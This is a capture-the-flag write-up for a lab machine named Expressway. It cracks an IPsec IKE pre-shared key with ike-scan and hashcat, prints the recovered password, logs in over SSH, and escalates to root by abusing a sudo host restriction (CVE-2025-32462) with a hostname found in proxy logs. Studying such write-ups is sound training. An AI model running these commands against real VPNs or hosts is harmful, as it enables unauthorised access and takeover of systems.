


Exploitation Summary
Exploitation process: The target machine initially appeared to only expose SSH on port 22, but a UDP scan revealed an IPsec IKE service running on port 500. By using ike-scan in aggressive mode, I was able to capture the Pre-Shared Key (PSK) hash along with the VPN username ike@expressway.htb.
Using hashcat with mode 5400 (IKE-PSK SHA1), I successfully cracked the PSK hash to obtain the password freakingrockstarontheroad. This credential pair allowed SSH access as the ike user, providing initial foothold on the system.
For privilege escalation, I discovered that the user ike was a member of the proxy group, which gave read access to Squid proxy logs. In these logs, I found references to an alternative hostname offramp.expressway.htb. Investigating further, I noticed an unusual SUID sudo binary in /usr/local/bin/sudo running version 1.9.17, which is vulnerable to CVE-2025-32462.
This vulnerability allows bypassing sudoers host restrictions by specifying an alternative hostname with the -h flag. When checking sudo privileges with sudo -l -h offramp.expressway.htb, I discovered that the ike user had NOPASSWD: ALL privileges on that host. By executing sudo -h offramp.expressway.htb /bin/bash, I escalated to root privileges.
Technologies/Exploits: IPsec IKE VPN enumeration, PSK hash cracking, CVE-2025-32462 (sudo host restriction bypass), Squid proxy log analysis.
Initial Reconnaissance
Starting with a standard nmap scan to identify open TCP ports and services:

The initial scan only reveals port 22 running SSH with what appears to be a relatively recent version. This is unusual for a machine that should have more attack surface. Given the limited findings, I decide to expand the reconnaissance to UDP ports, which are often overlooked but can reveal additional services.
UDP Port Discovery
Since UDP scans are significantly slower than TCP scans, while the scan runs I research common services that might be found on UDP ports. The scan identifies ports 500 and 45214 as open. Port 500 immediately catches my attention as it's commonly associated with IPsec IKE (Internet Key Exchange) VPN services.
According to this resource, IPsec is widely recognized as the principal technology for securing communications between networks (LAN-to-LAN) and from remote users to the network gateway (remote access), serving as the backbone for enterprise VPN solutions.
The service version scan completes and now reports port 45214 as closed, indicating it was likely a false positive in the initial UDP scan. This leaves port 500 as the primary target for further investigation.
IKE Service Enumeration
To gather more information about the IKE service, I use nmap's ike-version script:
nmap -sU -p 500 --script ike-version 10.10.11.87The script output reveals some attributes:
PORT STATE SERVICE
500/udp open isakmp
| ike-version:
| attributes:
| XAUTH
|_ Dead Peer Detection v1.0While this confirms the service is running and shows some supported features (XAUTH and Dead Peer Detection), it doesn't explicitly reveal the version or configuration details needed for exploitation.
IKE-Scan for VPN Group Discovery
I attempt to enumerate the VPN group name using ike-scan with multiple transformation sets:
ike-scan -A --trans=1,2,3,4,5 10.10.11.87This command doesn't return the group name, but I try another approach using aggressive mode with PSK cracking enabled:
ike-scan -A --pskcrack 10.10.11.87This yields much more valuable information - the Pre-Shared Key (PSK) parameters in the format required for offline cracking:
IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
[long hash string truncated]The hash at the end (fa2a34e0bac13aecd121c4ebe72c8307ffb39cdf) is the target for cracking. I initially attempt to crack it using the psk-crack tool:
psk-crack hashfile.txtHowever, this doesn't find a match after processing nearly 400,000 iterations. I also try hashcat with mode 100 (SHA1) against rockyou.txt without success, suggesting the hash format or approach might be incorrect.
Network Traffic Analysis
To gather additional information, I capture network traffic on the tun0 interface using Wireshark while re-running the IKE scan commands. This passive analysis reveals something interesting in one of the captured packets:

The capture shows the username ike@expressway.htb being used in the IKE exchange. This is a critical piece of information - I now have a valid username for the VPN and potentially for SSH access as well.
I attempt SSH brute-force against the ike user with hydra, but this doesn't yield results, suggesting the password isn't in common wordlists or the rate limiting is preventing the attack.
Successful PSK Hash Cracking
Re-running ike-scan without the --trans flag provides even more detailed information:
ike-scan -A 10.10.11.87The output reveals comprehensive IKE configuration details:
10.10.11.87 Aggressive Mode Handshake returned
HDR=(CKY-R=7fe5c3b9766613b9)
SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
KeyExchange(128 bytes) Nonce(32 bytes)
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
VID=09002689dfd6b712 (XAUTH)
VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
Hash(20 bytes)Further research reveals that hashcat has a specific mode for IKE-PSK SHA1 hashes: mode 5400. According to the hashcat documentation, this is the correct mode for cracking IPsec IKE aggressive mode PSK hashes.
Running hashcat with mode 5400 against the captured hash successfully cracks the password:
hashcat -m 5400 hash.txt rockyou.txtPassword found: freakingrockstarontheroad
Initial Access via SSH
With the cracked credentials ike:freakingrockstarontheroad, I attempt SSH authentication:
ssh ike@10.10.11.87The authentication succeeds, granting initial access to the system as the ike user. I can now retrieve the user flag and begin internal enumeration for privilege escalation vectors.
Internal Enumeration
After gaining access, I perform standard enumeration to understand the system's configuration and identify potential privilege escalation paths.
Active Services
Checking listening services with ss -tuln reveals port 25 is open locally, typically indicating an SMTP mail server. This could be useful for lateral movement or information gathering.
User Group Membership
Running id shows that the ike user belongs to the proxy group. This is interesting as group memberships often provide access to specific files or services that might contain sensitive information.
Process Analysis
Examining running processes with ps -faux reveals a suspicious process running as root:
root 3768 0.0 0.0 2900 640 ? Ss 08:27 0:00
/usr/sbin/in.tftpd --listen --user tftp --address :69 --secure /srv/tftpA TFTP (Trivial File Transfer Protocol) service is running on port 69, serving files from /srv/tftp. Investigating this directory, I find a configuration file that references a secret_key but doesn't reveal the actual key value or any credentials in clear text or encrypted form.
The service is identified by nmap as "netkit" implementation. I attempt various TFTP exploitation techniques using both the native tftp client and Metasploit modules, but none yield successful exploitation paths.
SUID Binary Analysis
Searching for SUID binaries reveals an unusual configuration:
find / -perm -4000 2>/dev/nullThe output shows something strange - sudo appears twice with SUID permissions:
/usr/local/bin/sudo
/usr/bin/sudoHaving sudo in /usr/local/bin instead of just the standard /usr/bin location is highly unusual and suggests custom installation or modification. However, checking with sudo -l confirms that the ike user doesn't have any sudo privileges configured, so this finding seems initially unexploitable.
Sudo Version Check
Checking the sudo version reveals:
sudo --versionSudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17Researching this version, I discover a recent vulnerability: CVE-2025-32462, with a proof-of-concept available at Exploit-DB.
CVE-2025-32462 Analysis
The vulnerability allows bypassing host-based restrictions in sudoers configuration. The exploit documentation provides this example scenario:
Example /etc/sudoers file using the Host_Alias directive:
Host_Alias SERVERS = prod.test.local, dev.test.local
Host_Alias PROD = prod.test.local
lowpriv SERVERS, !PROD = NOPASSWD:ALL
lowpriv ci.test.local = NOPASSWD:ALLIn this configuration, even though prod.test.local is explicitly denied, root access can be achieved by specifying the -h flag with an allowed hostname like dev.test.local or ci.test.local.
The key is finding alternative hostnames that might be configured in the sudoers file with more permissive rules.
Discovering Alternative Hostname
Remembering that the ike user is in the proxy group, I search for files accessible to this group:
find / -group proxy 2>/dev/nullThis reveals access to Squid proxy logs in /var/log/squid/access.log.1. Examining these logs, I find an interesting entry:
1753229688.902 0 192.168.68.50 TCP_DENIED/403 3807
GET http://offramp.expressway.htb - HIER_NONE/- text/htmlThe hostname offramp.expressway.htb appears in the proxy logs, suggesting it's an alternative name for this system or a closely related one in the network configuration.
Privilege Escalation via Sudo Host Bypass
With the alternative hostname discovered, I test if sudo privileges differ when specifying this host:
sudo -l -h offramp.expressway.htbThe output reveals a critical misconfiguration:
Matching Defaults entries for ike on offramp:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
use_pty
User ike may run the following commands on offramp:
(root) NOPASSWD: ALL
(root) NOPASSWD: ALLThe ike user has full root privileges when specifying the offramp.expressway.htb hostname! This perfectly demonstrates CVE-2025-32462 - the sudoers configuration uses host-based restrictions, but by specifying a different hostname with the -h flag, I can bypass these restrictions.
Gaining Root Access
Exploiting this misconfiguration is straightforward. I simply execute a root shell with the alternative hostname specified:
sudo -h offramp.expressway.htb /bin/bashVerification:
whoamirootI now have root privileges and can retrieve the root flag, completing the machine:
cat /root/root.txtThis privilege escalation highlights the importance of careful sudoers configuration and the risks of using host-based restrictions without proper validation. The vulnerability demonstrates how logical security boundaries can be bypassed when trust decisions are based on easily-manipulated parameters like hostname specifications.